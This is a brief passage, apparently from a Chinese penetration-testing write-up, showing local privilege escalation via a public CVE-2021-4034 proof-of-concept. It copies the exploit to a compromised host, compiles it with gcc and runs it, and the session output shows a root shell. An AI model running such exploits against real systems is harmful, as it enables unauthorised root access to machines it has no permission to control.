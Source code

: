**3.2 提权**

Github 下载POC代码后，将POC代码传送到肉鸡上，gcc编译后即可提权

```bash
bash-5.1$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc.sh 
bash-5.1$ ./cve-2021-4034-poc.sh 
# whoami
root
```

